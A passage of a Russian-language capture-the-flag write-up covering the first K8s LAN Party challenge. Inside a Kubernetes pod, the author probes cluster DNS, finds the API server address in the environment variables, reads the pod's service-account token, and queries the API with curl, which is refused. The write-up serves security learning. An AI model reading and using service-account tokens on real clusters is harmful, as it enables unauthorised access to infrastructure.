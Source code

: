 ## My solution for `https://www.k8slanparty.com/` challenge.

# 1 DNSing with the stars

Ссылка задания ведёт на интересную страницу с опросом DNS кластера. Но внутренний DNS в поде ничего не разрешает:
```
dig +short 127-0-0-1.default.pod.cluster.local
```

```
cat /etc/resolv.conf
search k8s-lan-party.svc.cluster.local svc.cluster.local cluster.local us-west-1.compute.internal
nameserver 10.100.120.34
options ndots:5
```

Ясно, что это не тот DNS, но какой верный было непонятно. Внутри пода есть `kubectl`, но он бесполезный. Файла `~/.kube/config` тоже нет. Тут я взял первую подсказку:

```
Make sure you scan the correct subnet. You can get a hint of what the correct subnet is by looking at the Kubernetes API server address in the machine’s environment variables.
```

Я не догадался, что kubectl брал данные из переменных окружения.

```
env
...
KUBERNETES_SERVICE_HOST=10.100.0.1
...
```

После этого я вытащил токен и попробовал посмотреть службы:

```
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```

```
curl -k --header "Authorization: Bearer $TOKEN" https://10.100.0.1:443/api/v1/services
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "services is forbidden: User \"system:serviceaccount:k8s-lan-party:default\" cannot list resource \"services\" in API group \"\" at the cluster scope",
  "reason": "Forbidden",
  "details": {
    "kind": "services"
  },
  "code": 403
```

